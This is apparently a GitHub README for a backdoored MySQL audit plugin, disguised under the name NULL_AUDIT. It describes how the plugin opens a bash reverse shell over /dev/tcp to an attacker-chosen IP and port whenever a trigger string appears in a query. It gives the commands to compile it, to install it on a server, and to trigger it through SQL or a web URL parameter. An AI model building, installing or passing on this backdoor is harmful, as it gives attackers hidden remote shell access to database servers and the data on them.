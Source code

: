 ####A tricked mysql audit plugin backdoor

Modified from 'audit_null.c' for official MySQL releases.

by t57root @ openwill.me 

&lt;t57root@gmail.com>  [www.HackShell.net](http://www.hackshell.net/)

This plugin watches the queries on the mysql server and will execute the shell command 'bash < /dev/tcp/$BACK_IP/$BACK_PORT >&0 2>&0 &' when there's specific string in the running query.

* Compile:

>>gcc -o audit_null.so audit_null.c `mysql_config --cflags` -shared -fPIC -DMYSQL_DYNAMIC_PLUGIN 

* Install:

>>\#sudo cp audit_null.so /usr/lib/mysql/plugin/

>>mysql>install plugin NULL_AUDIT soname 'audit_null.so';

* Usage:

>>mysql>select * from news where id='openwill.me';

>>OR

>>http://www.hackshell.net/news.php?id='openwill.me'

More details available at [This link](http://example.net/)
